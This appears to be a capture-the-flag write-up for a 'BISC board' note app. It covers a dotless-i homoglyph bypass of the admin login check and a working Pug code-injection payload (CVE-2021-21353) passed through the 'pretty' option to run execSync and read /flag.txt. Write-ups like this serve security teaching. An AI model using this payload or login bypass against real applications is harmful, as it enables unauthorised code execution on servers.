

## BISC board  


We are given a simple note taking app.  

Looking at `package.json`, we can see that the app uses `pug@3.0.0`, which has a [code injection CVE](https://nvd.nist.gov/vuln/detail/CVE-2021-21353). This will come in handy later.  

```json
{
  "dependencies": {
    "body-parser": "^1.20.2",
    "express": "^4.18.2",
    "pug": "^3.0.0",
    "pug-code-gen": "^3.0.1"
  },
  "scripts": {
    "start": "node app.js"
  }
}
```

The source code has an `/edit` endpoint, which allows the admin user `BISC2023` to control `pretty` option of Pug's `render()` call, which is the attack vector for the aforementioned CVE.  

```js
app.post('/edit',function(req,resp){
    if(now===""){
        resp.render('alert',{contents:'whoru?',red:'/login'})
    }else{
        var {title,b_title,content,pretty}=req.body
        if(now!=="BISC2023"){
            pretty=false
        }
        board[title]=[board[b_title][0],content,pretty?pretty:false]
        if(title!==b_title){
            delete board[b_title]
        }
        resp.render('alert',{contents:'Edit this note',red:'/'})
    }
})
```

The Dockerfile creates a flag file, but it isn't referenced anywhere in the app, confirming that we have to get RCE through the CVE to read it.  

```dockerfile
FROM node

RUN mkdir -p /app
RUN echo 'BISC2023{fakeflag}' > /flag.txt

WORKDIR /app

COPY ./ /app

RUN npm install

EXPOSE 80

CMD ["npm","start"]
```

To exploit this vuln, we have to get admin login first. In the `/login` endpoint, we can notice a mismatch between the ID validation and the actual login.  

The endpoint checks `id` with `.toLowerCase()`, then uses `.upperCase()` to check if the username exists before logging in.  

```js
var accounts={"BISC2023":"TeamH4C"}

...

app.post('/login',function(req,resp){
    var {id,pw}=req.body
    if(id.toLowerCase()==='bisc2023'){
        resp.render('alert',{contents:'u r not admin',red:'/login'})
    }else{
        id=id.toUpperCase()
        if(id in accounts & accounts[id]===pw){
            now=id
            resp.redirect('/')
        }else{
            resp.render('alert',{contents:'fail',red:'/login'})
        }
    }
})
```

We can use the homoglyph dotless `i` to bypass this filter. Languages like Python and JavaScript fall back on default case mappings for homoglyphs, so this will cause the `.toLowerCase()` check to fail while also passing the `toUpperCase()` check.  

```
id: BıSC2023
pw: TeamH4C
```

After logging in as admin, we just need to create a note, then call the `/edit` endpoint and pass our RCE payload under the `pretty` parameter.  

```js
'+process.mainModule.require('child_process').execSync('cat /flag.txt').toString());_=('
```

The `/edit` endpoint will then execute our payload and render the flag.  



Flag: `BISC2023{C97AA493EB8C29FE438C829C0B99E96714928568}`  